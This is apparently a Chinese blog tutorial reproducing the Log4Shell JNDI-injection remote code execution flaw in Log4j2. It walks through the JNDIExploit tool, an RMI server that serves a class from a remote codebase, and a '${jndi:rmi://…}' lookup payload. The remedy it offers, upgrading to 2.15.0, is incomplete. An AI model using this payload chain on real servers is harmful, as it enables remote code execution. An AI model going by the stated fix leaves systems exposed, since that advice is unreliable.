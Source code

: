 ﻿@[TOC](文章目录)

### 一、问题

在`Log4j2.x<=2.14.1`版本，攻击者可通过构造恶意请求，触发远程代码执行漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/ee402a177b454758b320089bba8cbb49.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6YOR5riF,size_20,color_FFFFFF,t_70,g_se,x_16)


### 二、Log4j远程代码执行漏洞复现

#### 1、下载JNDIExploit

> 一款用于 JNDI注入 利用的工具

[https://github.com/feihong-cs/JNDIExploit](https://github.com/feihong-cs/JNDIExploit)

运行

```shell
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/af5625f570ef4c8992ca3308b998dca5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6YOR5riF,size_20,color_FFFFFF,t_70,g_se,x_16)

#### 2、远程执行程序 -- AppRun

> tips: 自行编写相应逻辑 `^_^`

```java
public class AppRun {

    static {
        System.out.println("hello world...");
    }

}
```

#### 3、编译AppRun放入nginx服务器根目录下

```shell
javac AppRun.java
```

将编译好的`AppRun.class`放入nginx服务器根目录下
![在这里插入图片描述](https://img-blog.csdnimg.cn/d379bd41c12540ff9892fdfcd21a0db3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6YOR5riF,size_20,color_FFFFFF,t_70,g_se,x_16)

#### 4、编写一个RMI服务端

```java
public class RmiServer {

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            // 本地执行方式
//            Reference reference = new Reference("AppRun", "AppRun", null);
            // tips:如果是远程执行，需要将`AppRun`编译后的字节码文件放到nginx html访问目录下，再通过如下方式执行程序
            Reference reference = new Reference("AppRun", "AppRun", "http://www.zhengqingya.com:80/");
            registry.bind("app", new ReferenceWrapper(reference));
            System.out.println("Create app registry on port 1099...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

运行`RmiServer`

#### 5、模拟一个用log4j运行的程序

模拟输出特定值，实际上可在前端页面上的输入框中输入这些值，只要程序后台通过log4j打印这些值即会触发远程代码`AppRun`执行相应逻辑

```java
public class Log4j {
    
    private static final Logger log = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        log.error("test1: ${java:os}");
        log.error("test2: ${jndi:rmi://192.168.101.88:1099/app}");
    }

}
```

运行`Log4j`，即可查看效果
![在这里插入图片描述](https://img-blog.csdnimg.cn/5682d8772a1f48a3a38dc3b0b9bf1404.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6YOR5riF,size_20,color_FFFFFF,t_70,g_se,x_16)

### 三、解决

升级log4j版本至`2.15.0`

```xml
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
```


### 四、本文案例demo源码

[https://gitee.com/zhengqingya/java-workspace](https://gitee.com/zhengqingya/java-workspace)


---

> 今日分享语句：
> 就算学习和生活再艰难，也要一边痛着，一边笑着，给生活一张漂亮的脸。
